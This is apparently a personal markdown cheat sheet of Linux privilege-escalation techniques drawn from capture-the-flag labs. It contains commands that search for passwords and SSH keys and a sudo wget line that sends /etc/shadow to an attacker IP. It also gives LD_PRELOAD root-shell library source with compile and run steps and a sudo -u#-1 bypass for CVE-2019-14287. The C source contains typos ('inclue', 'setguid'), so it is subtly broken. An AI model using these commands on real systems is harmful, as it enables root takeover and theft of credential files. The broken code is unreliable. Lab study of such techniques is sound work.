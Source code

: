 **1. Basics**
**2. LD_PRELOAD && CVE's**
**3. **
**4. References**

---

**1 Basics::**
+ invoke-rc.d - All access to the init scripts by Debian packages' maintainer scripts should be done through invoke-rc.d
+ ip neigh - like arp -a 
  + check the communication between IP's and ports
+ grep --color=auto -rnw '/' -ie "PASSWORD(=)" --color=always 2>/dev/null (Very nice grep cmd)
+ find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
+ cat .ovpn - sometimes has password info
+ sudo -l
+ ps aux - for ports
+ find / -name authorized_keys 2>/dev/null
+ find / -name id_rsa 2>/dev/null

+ intended functionality:
+ sudo apache -f /etc/shadow
+ sudo wget --post-file=/etc/shadow <attacker-ip>:8081 #Send the shadow file to self
---
##**CVE's && LD_PRELOAD::**##
+ Privesc with LD_PRELOAD=
  + `sudo -l :: env_reset, env_keep+=LD_PRELOAD`
  + ***run malicious library before any other***
---
vim shell.c
```
#inclue<stdio.h>
#inclue<sys/types.h>
#inclue<stdlib.h>

void _init(){
    unsetenv("LD_PRELOAD");
    setguid(0);
    setuid(0);
    system("/bin/bash");
}
```
`$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
`$ sudo LD_PRELOAD=/path/to/file/shell.so apache2  #service from sudo -l` :: root@XYZ#

dirsearch - similar to gobuster/dirbuster 

brute_forcing with CMS made simple: see ![brute_force_cms_script](screenshots/CMS_made_simple_brute_force.png) && "fun_brute_force_script"

##**CVE-2019-14287::**##
`sudo -l :: hacker ALL=(ALL,!root) /bin/bash`
`# sudo -u#-1 /bin/bash`
# https://tryhackme.com/room/sudovulnsbypass
# Exploit-DB for CVE-2019-14287 - https://www.exploit-db.com/exploits/47502


##**CVE-2019-18634::**##
`cat /etc/sudoers :: Defaults env_rest,pwfeedback`
`# sudo -V :: 1.8.21p2 && file grammar V 46`
`./exploit #C program` See ![cve](screenshots/cve_2019_18634.png)
# https://tryhackme.com/room/sudovulnsbof
# Exploit CVE-2019-18634 - https://github.com/saleemrashid/sudo-cve-2019-18634

##**CVE-2021-3156 Baron Samedit::**##
```
Affects any unpatched sudo 1.8.2-1.8.31p2-1.9.0-1.9.5p1
This time the vulnerability is a heap buffer overflow, as opposed to the stack buffer (CVE-2019-18634)
The stack is a very regimented section of memory which stores various important aspects of a program. \
The heap, on the other hand, is reserved for dynamic allocation of memory, \
allowing for more flexibility in how values and constructs are created and accessed by a program.
```
See ![is_vuln?](screenshots/cve_2021315.png)
# https://github.com/blasty/CVE-2021-3156
# https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
```
make
./sudo-hax-me-a-sandwich
# See ![sudo_root_cve_20211316](screenshots/cve_2021315_make_run.png)
```

##**SUID - Shared Object Injection::**##
`find / -type f -perm -04000 -ls 2>/dev/null`



##**CVE-2021-44228 log4j::**##

# [](https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java)
# [](https://log4shell.huntress.com/)
# [](https://www.youtube.com/watch?v=7qoPDq41xhQ)
# [](https://github.com/YfryTchsGD/Log4jAttackSurface)

** 4. References::**
```
[Lin_enum_tips](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[tools_&_checklists](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
[hacktricks_lin_privesc](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
[OWASP_lin_privesc](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
[TCM_GITHUB](https://github.com/TCM-Course-Resources/Linux-Privilege-Escalation-Resources)
[TCM_THM](https://tryhackme.com/room/linuxprivescarena)
[sql-injection_CMSMS_exploit](https://www.exploit-db.com/exploits/46635)
[dirsearch](https://github.com/maurosoria/dirsearch)
```